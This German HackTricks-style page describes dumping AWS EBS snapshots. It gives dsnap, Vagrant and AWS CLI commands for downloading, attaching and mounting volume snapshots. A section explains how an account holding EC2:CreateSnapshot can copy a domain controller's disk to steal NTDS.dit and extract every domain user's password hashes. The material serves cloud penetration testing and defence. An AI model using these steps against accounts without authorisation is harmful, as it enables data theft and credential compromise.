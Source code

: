 # AWS - EBS Snapshot Dump

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

### Überprüfen eines Snapshots lokal
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
Für weitere Informationen zu dieser Technik lesen Sie die Originalforschung unter [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Sie können dies mit Pacu mithilfe des Moduls [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) durchführen.

### Überprüfen eines Snapshots in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Hängen Sie es in einer EC2-VM unter Ihrer Kontrolle ein** (es muss sich in derselben Region wie die Kopie des Backups befinden):

Schritt 1: Erstellen Sie ein neues Volume Ihrer bevorzugten Größe und Art, indem Sie zu EC2 –> Volumes gehen.

Um diese Aktion auszuführen, befolgen Sie diese Befehle:
- Erstellen Sie ein EBS-Volume, das an die EC2-Instanz angehängt werden soll.
- Stellen Sie sicher, dass das EBS-Volume und die Instanz in derselben Zone sind.

Schritt 2: Wählen Sie die Option "Volume anhängen", indem Sie mit der rechten Maustaste auf das erstellte Volume klicken.

Schritt 3: Wählen Sie die Instanz aus dem Instanz-Textfeld aus.

Um diese Aktion auszuführen, verwenden Sie den folgenden Befehl:
- Hängen Sie das EBS-Volume an.

Schritt 4: Melden Sie sich bei der EC2-Instanz an und listen Sie die verfügbaren Laufwerke mit dem Befehl `lsblk` auf.

Schritt 5: Überprüfen Sie, ob das Volume Daten enthält, indem Sie den Befehl `sudo file -s /dev/xvdf` verwenden.

Wenn die Ausgabe des obigen Befehls "/dev/xvdf: data" zeigt, bedeutet dies, dass das Volume leer ist.

Schritt 6: Formatieren Sie das Volume im ext4-Dateisystem mit dem Befehl `sudo mkfs -t ext4 /dev/xvdf`. Alternativ können Sie auch das xfs-Format mit dem Befehl `sudo mkfs -t xfs /dev/xvdf` verwenden. Beachten Sie, dass Sie entweder ext4 oder xfs verwenden sollten.

Schritt 7: Erstellen Sie ein Verzeichnis Ihrer Wahl, um das neue ext4-Volume zu mounten. Verwenden Sie beispielsweise den Namen "newvolume".

Um diese Aktion auszuführen, verwenden Sie den Befehl `sudo mkdir /newvolume`.

Schritt 8: Hängen Sie das Volume am Verzeichnis "newvolume" mit dem Befehl `sudo mount /dev/xvdf /newvolume/` an.

Schritt 9: Wechseln Sie in das Verzeichnis "newvolume" und überprüfen Sie den Festplattenspeicher, um das gemountete Volume zu validieren.

Um diese Aktion auszuführen, verwenden Sie die folgenden Befehle:
- Wechseln Sie in das Verzeichnis `/newvolume`.
- Überprüfen Sie den Festplattenspeicher mit dem Befehl `df -h .`. Die Ausgabe dieses Befehls sollte den freien Speicherplatz im Verzeichnis "newvolume" anzeigen.

Sie können dies mit Pacu mithilfe des Moduls `ebs__explore_snapshots` durchführen.

### Überprüfen eines Snapshots in AWS (mit der Befehlszeile)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Schattenkopie

Jeder AWS-Benutzer, der die Berechtigung **`EC2:CreateSnapshot`** besitzt, kann die Hashes aller Domänenbenutzer stehlen, indem er einen **Snapshot des Domänencontrollers** erstellt, ihn an eine von ihm kontrollierte Instanz anhängt und die Dateien NTDS.dit und SYSTEM-Registrierungshive für die Verwendung mit Impacket's secretsdump-Projekt exportiert.

Sie können dieses Tool verwenden, um den Angriff zu automatisieren: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oder Sie könnten eine der vorherigen Techniken verwenden, nachdem Sie einen Snapshot erstellt haben.


# Referenzen
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
